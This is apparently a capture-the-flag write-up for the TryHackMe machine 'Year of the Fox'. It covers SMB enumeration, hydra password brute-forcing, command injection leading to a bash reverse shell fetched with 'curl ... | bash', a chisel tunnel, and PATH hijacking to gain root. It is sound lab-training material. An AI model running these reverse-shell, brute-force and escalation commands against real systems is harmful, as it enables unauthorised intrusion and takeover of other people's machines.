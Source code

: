 ```yaml
---
title: Year of the Fox
date: 2023-10-09 21:24:00 +0200
categories: [Writeups, TryHackMe]
tags: [smb, hydra, command-injection, chisel, path-hijacking]
img_path: /assets/images/YearOfTheFox
math: true
---
```



To solve this TryHackMe machine, we will to enumerate the SMB service to get valid usernames. After that, we will bruteforce some creds and use then to achieve RCE in a search functionality. We'll bruteforce some passwords once again and abuse a sudoers privilege by using path hijacking. Let's dive in!


-------------------------

**Note**: while I was attacking the machine, it got restarted and I got a new IP address for the machine. That is why there are different IPs across the file. I am sorry about that!

------------------------------


## Recognisement
First things first: let's check if we have connectivity to the victim machine, by sending an ICMP trace:

![ping command](ping.png)

And yep, we sent a packet and received it back. Besides, we can already know which OS the machine is running, based on the TTL. As the TTL's value is 63, it is quite likely for the OS to be a Linux distribution.

Now, let's scan its ports, to see which one are opened using TCP protocol:

![nmap first scan](nmap-open-ports.png)

So ports **80**, **139** and **445** are open. Basically, an HTTP service and SMB service. Let's make a more exhaustive scan to these specific ports. To do so, we can run nmap with the options:

- -p80,139,445 $$\rightarrow$$ To run the scan only on these ports
- -sC $$\rightarrow$$ To run some basic scripts that nmap stores (programmed in Lua)
- -sV $$\rightarrow$$ To try getting the service and version of the service running in the ports
- -oN targeted $$\rightarrow$$ To save the output in a file named targeted

And this is the output:

![nmap exhaustive scan](nmap-scan.png)

Nothing really interesting, apart from a possible domain name: **year-of-the-fox.lan** (which we are going to add to our `/etc/hosts` file) and an 401 error in the webpage.

We can further enumerate the SMB service. To do so, we can use the tool **enum4linux**:

```bash
enum4linux 10.10.253.99
```

the only important output of this is:

![users](e4l-users.png)

which tell us that there exist two users: **fox** and **rascal** and

![folders](e4l-folders.png)

which tell us that there is a shared folder call **yotf**, but we can't list its content, so we'll come back to the SMB service once we have some creds :)

Let's enumerate now the HTTP service. First of all, we can run some tools like **whatweb** or **wig**, in order to get some useful information about the webpage: CMS it is using, as well as programming languages, etc.

![whatweb report](whatweb.png)

**whatweb** only tells us what we knew from the nmap scan.

Now, we access the webpage in our browser, and, as we expected, a popup asking us for credentials shows. We try some default creds but with no success. We can try to send a POST request to the main webpage to see if somethings changes, but again, there is nothing important. 


## Shell as www-data

We can now try to bruteforce the passwords for the users fox and rascal. Maybe we are lucky. To do so, we use **hydra**. First, we write the two users we have in a file called `users.txt`, and we can execute the following command:

```bash
hydra -u -L users.txt -P /usr/share/wordlists/rockyou.txt http-get://10.10.253.99
```

And...yes!! After a couple of minutes we found rascal's password:

![rascal's password](hydra.png)

We log in as rascal, and we are showed this search pannel:

![rascal search site](rascal-search-system.png)

This page is making POST requests to the endpoint **/assets/php/search.php**. Apparently, there are some files named "creds2.txt","fox.txt" and "important-data.txt". However, we do not know where those are located. There seems to be kind of a filter in the webpage frontend, which doesn't let us write some special characters as '"'. To solve this problem, we can send the request to **BurpSuite**, and we may try to inject a command like this:

![command injection](command-injection.png)

and if we send that request and we listen for ICMP packets with **tcpdump**, we can see how we receive the ICMP packet:

![rce-prove](rce.png)

So it seems that we have RCE! Let's try to make a reverse shell. To do so, we are going to write a reverse shell in a file named `index.html` with this content:

```bash
#!/bin/bash 

bash -i >& /dev/tcp/10.8.160.84/443 0>&1
```

and we are going to set an HTTP server that hosts that file, and while being listening in the port 443, we are going to execute the command `curl http://<ATTACKER_IP> | bash` in the victim machine:

![gaining access](access.png)

and we are in as the user **www-data**!!

First things first, let's upgrade our shell to make it full interactive. To do so, we execute `script -qc /bin/bash /dev/null`, followed by `Ctrl+Z`. Then we type `stty raw -echo; fg` and `reset xterm`. After that, we are going to type `export TERM=xterm-256color`, `source /etc/skel/.bashrc` and `export SHELL=bash`, to make everything interactive and full of colours :)


## Shell as fox

In the directory `/var/www/files` we can see the files that were prompted in the web. These are the contents:

![files content](files-content.png)

The content of "creds2.txt" seems to be a base64 string, but if we try to decode it, nothing interesting comes up.

If we execute `netstat -nat`, we can see that the port 22 (SSH) is open:

![ssh-open](ssh-open.png)

If we try to execute the command **ssh** as the user www-data, we don't have permission to do that. To solve this problem, we can try to make my port 2222 (for example) to be the port 22 of the victim machine. To do that, we can use **chisel**. Out attacker machine will be the server and the victim machine will be the client. In the attaacker machine we execute the command:

```bash
./chisel server --reverse -p 1234
```

and in the victim machine:

```bash
./chisel client <ATTACKER_IP>:1234 R:2222:127.0.0.1:22
```

and after that, we can use our port 2222 as the victim machine's port 22, and we can try to bruteforce the password for the user **fox**. We can use **hydra** again:

```bash
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://<ATTACKER_IP> -s 2222
```

and we are lucky!!

![ssh hydra brute](ssh-hydra.png)

Let's connect to ssh as the user fox then:

![fox ssh](fox-user.png)

## Privilege escalation

We can check for sudo privileges, and we got one:

![sudo -l](sudol.png)

A quick search in Google tells us that we can hijack the path of the **poweroff** binary. We will create a binary called poweroff in the `/tmp` directory, which contains the code  `chmod u+s /bin/bash`, so that we can gain access as root. 

```bash
echo 'chmod u+s /bin/bash' > /tmp/poweroff
```

Now, we have to make the `/tmp` directory the first one in the PATH variable:

```bash
export PATH=/tmp:$PATH
```

and give the file executable permissions: 

```bash
chmod +x /tmp/poweroff
```

And then we execute

```bash
sudo /usr/sbin/shutdown
```

and...

![root access](root.png)


This is it! Pwned :)

